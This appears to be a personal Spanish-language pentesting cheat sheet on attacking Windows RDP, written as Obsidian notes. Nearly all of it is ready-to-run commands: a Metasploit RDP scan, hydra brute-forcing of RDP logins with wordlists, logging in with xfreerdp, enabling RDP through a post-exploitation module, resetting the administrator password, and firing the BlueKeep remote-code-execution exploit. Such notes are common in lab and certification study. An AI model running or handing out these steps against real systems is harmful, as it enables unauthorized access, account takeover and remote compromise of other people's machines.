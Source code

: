 ```yaml
---
created: 2024-12-21

---
```

----------------
- tags: #windows #rdp #rce #bluekeep #metasploit 
------------

### Comprobar si esta RDP detrás de un puerto x

	msfdb run
	search rdp_scanner
	use auxiliary/scanner/rdp/rdp_scanner
	set RHOSTS x.x.x.x
	SET RPORT 3333
	run

### Fuerza bruta con hydra

	hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://x.x.x.x -s 3333

### Conectarse con xfreerdp
	xfreerdp /u:administrator /p:123456789 /v:x.x.x.x:3333

### Activarlo desde metasploit

	use post/windows/manage/enable_rdp
	set SESSION x
	exploit

(Cambiamos la contraseña del usuario administrador)

	net user administrator password123

	xfreerdp /u:administrator /p:password123 /v:x.x.x.x

## Explotar BlueKeep

	msfconsole
	seach BlueKeep
	use 1
	set RHOSTS x.x.x.x
	exploit
	show targets
	set target x
	exploit


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

